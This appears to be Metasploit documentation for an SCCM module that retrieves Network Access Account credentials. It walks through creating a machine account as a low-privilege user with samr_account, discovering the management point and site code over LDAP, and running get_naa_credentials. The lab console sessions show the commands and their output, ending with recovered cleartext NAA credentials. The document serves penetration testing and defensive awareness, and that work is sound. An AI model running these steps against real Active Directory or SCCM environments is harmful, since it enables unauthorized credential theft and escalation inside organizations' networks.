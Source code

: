 ## NAA Credential Exploitation

The NAA account is used by some SCCM configurations in the policy deployment process. It does not require many privileges, but 
in practice is often misconfigured to have excessive privileges.

The account can be retrieved in various ways, many requiring local administrative privileges on an existing host. However,
it can also be requested by an existing computer account, which by default most user accounts are able to create.


## Module usage
The `admin/dcerpc/samr_computer` module is generally used to first create a computer account, which requires no permissions:

1. From msfconsole
2. Do: `use auxiliary/admin/dcerpc/samr_account`
3. Set the `RHOSTS`, `SMBUser` and `SMBPass` options
   a. For the `ADD_COMPUTER` action, if you don't specify `ACCOUNT_NAME` or `ACCOUNT_PASSWORD` - one will be generated automatically
   b. For the `DELETE_ACCOUNT` action, set the `ACCOUNT_NAME` option
   c. For the `LOOKUP_ACCOUNT` action, set the `ACCOUNT_NAME` option
4. Run the module and see that a new machine account was added

Then the `auxiliary/admin/sccm/get_naa_credentials` module can be used:

1. `use auxiliary/admin/sccm/get_naa_credentials`
2. Set the `RHOST` value to a target domain controller (if LDAP autodiscovery is used)
3. Set the `USERNAME` and `PASSWORD` information to a domain account
4. Set the `COMPUTER_USER` and `COMPUTER_PASSWORD` to the values obtained through the `samr_computer` module
5. Run the module to obtain the NAA credentials, if present.

Alternatively, if the Management Point and Site Code are known, the module can be used without autodiscovery:

1. `use auxiliary/admin/sccm/get_naa_credentials`
2. Set the `COMPUTER_USER` and `COMPUTER_PASSWORD` to the values obtained through the `samr_computer` module
3. Set the `MANAGEMENT_POINT` and `SITE_CODE` to the known values.
4. Run the module to obtain the NAA credentials, if present.

The management point and site code can be retrieved using the `auxiliary/gather/ldap_query` module, using the `ENUM_SCCM_MANAGEMENT_POINTS` action.

See the Scenarios for a more detailed walk through

## Options

### RHOST, USERNAME, PASSWORD, DOMAIN, SESSION, RHOST
Options used to authenticate to the Domain Controller's LDAP service for SCCM autodiscovery.

### MANAGEMENT_POINT
The SCCM server.

### SITE_CODE
The Site Code of the management point.

## Scenarios
In the following example the user `ssccm.lab\eve` is a low-privilege user.

### Creating computer account

```
msf6 auxiliary(admin/dcerpc/samr_account) > run rhost=192.168.33.10 domain=sccm.lab username=eve password=iloveyou
[*] Running module against 192.168.33.10

[*] 192.168.33.10:445 - Adding computer
[+] 192.168.33.10:445 - Successfully created sccm.lab\DESKTOP-2KVDWNZ3$
[+] 192.168.33.10:445 -   Password: pJTrvFyDHiHnqtlqTTNYe2HPVpO3Yekj
[+] 192.168.33.10:445 -   SID:      S-1-5-21-3875312677-2561575051-1173664991-1128
[*] Auxiliary module execution completed
```

### Running with Autodiscovery
Using the credentials just obtained with the `samr_account` module.

```
msf6 auxiliary(admin/sccm/get_naa_credentials) > options

Module options (auxiliary/admin/sccm/get_naa_credentials):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   COMPUTER_PASS                      yes       The password of the provided computer account
   COMPUTER_USER                      yes       The username of a computer account
   MANAGEMENT_POINT                   no        The management point (SCCM server) to use
   SITE_CODE                          no        The site code to use on the management point
   SSL               false            no        Enable SSL on the LDAP connection
   VHOST                              no        HTTP server virtual host


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DOMAIN                     no        The domain to authenticate to
   PASSWORD                   no        The password to authenticate with
   RHOSTS                     no        The domain controller (for autodiscovery). Not required if providing a management point and site code
   RPORT     389              no        The LDAP port of the domain controller (for autodiscovery). Not required if providing a management point and site code (TCP)
   USERNAME                   no        The username to authenticate with


View the full module info with the info, or info -d command.
msf6 auxiliary(admin/sccm/get_naa_credentials) > run rhost=192.168.33.10 username=eve domain=sccm.lab password=iloveyou computer_user=DESKTOP-2KVDWNZ3$ computer_pass=pJTrvFyDHiHnqtlqTTNYe2HPVpO3Yekj
[*] Running module against 192.168.33.10

[*] Discovering base DN automatically
[*] 192.168.33.10:389 Discovered base DN: DC=sccm,DC=lab
[+] Found Management Point: MECM.sccm.lab (Site code: P01)
[*] Got SMS ID: BD0DC478-A71A-4348-BD14-B7E91335738E
[*] Waiting 5 seconds for SCCM DB to update...
[*] Got NAA Policy URL: http://<mp>/SMS_MP/.sms_pol?{c48754cc-090c-4c56-ba3d-532b5ce5e8a5}.2_00
[+] Found valid NAA credentials: sccm.lab\sccm-naa:123456789
[*] Auxiliary module execution completed
```

### Manual discovery

```
msf6 auxiliary(gather/ldap_query) > run rhost=192.168.33.10 username=eve domain=sccm.lab password=iloveyou
[*] Running module against 192.168.33.10

[*] 192.168.33.10:389 Discovered base DN: DC=sccm,DC=lab
CN=SMS-MP-P01-MECM.SCCM.LAB,CN=System Management,CN=System,DC=sccm,DC=lab
=========================================================================

 Name           Attributes
 ----           ----------
 cn             SMS-MP-P01-MECM.SCCM.LAB
 dnshostname    MECM.sccm.lab
 mssmssitecode  P01

[*] Query returned 1 result.
[*] Auxiliary module execution completed

msf6 auxiliary(gather/ldap_query) > use auxiliary/admin/sccm/get_naa_credentials

msf6 auxiliary(admin/sccm/get_naa_credentials) > run computer_user=DESKTOP-2KVDWNZ3$ computer_pass=pJTrvFyDHiHnqtlqTTNYe2HPVpO3Yekj management_point=MECM.sccm.lab site_code=P01

[*] Got SMS ID: BD0DC478-A71A-4348-BD14-B7E91335738E
[*] Waiting 5 seconds for SCCM DB to update...
[*] Got NAA Policy URL: http://<mp>/SMS_MP/.sms_pol?{c48754cc-090c-4c56-ba3d-532b5ce5e8a5}.2_00
[+] Found valid NAA credentials: sccm.lab\sccm-naa:123456789
[*] Auxiliary module execution completed
```